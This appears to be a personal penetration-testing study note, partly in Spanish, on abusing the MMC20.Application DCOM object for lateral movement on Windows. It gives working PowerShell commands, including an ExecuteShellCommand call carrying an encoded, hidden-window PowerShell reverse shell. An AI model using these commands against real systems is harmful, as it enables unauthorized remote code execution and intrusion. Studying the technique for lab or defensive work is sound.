## DESCRIPTION

In this section, we will inspect a fairly recent lateral movement technique that exploits the Distributed Component Object Model (DCOM)1 and learn how it can be abused for lateral movement.2

The Microsoft Component Object Model (COM)3 is a system for creating software components that interact with each other. While COM was created for either same-process or cross-process interaction, it was extended to Distributed Component Object Model (DCOM) for interaction between multiple computers over a network.

Both COM and DCOM are very old technologies dating back to the very first editions of Windows.4 Interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API.

Cyberason documented5 a collection of various DCOM lateral movement techniques, including one discovered by Matt Nelson,6 which we are covering in this section.

The discovered DCOM lateral movement technique is based on the Microsoft Management Console (MMC)7 COM application that is employed for scripted automation of Windows systems.

The MMC Application Class allows the creation of Application Objects,8 which expose the ExecuteShellCommand method under the Document.ActiveView property. As its name suggests, this method allows execution of any shell command as long as the authenticated user is authorized, which is the default for local administrators.

#### Mas información
* 


## EXPLOITATION

1. From an elevated PowerShell prompt, we can instantiate a remote MMC 2.0 application by specifying the target IP of FILES04 as the second argument of the GetTypeFromProgID method.

```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```


2. Ejecutamos un comando en este caso una powersehll [[POWERSHELL REVERSESHELL]]

```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```


## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 
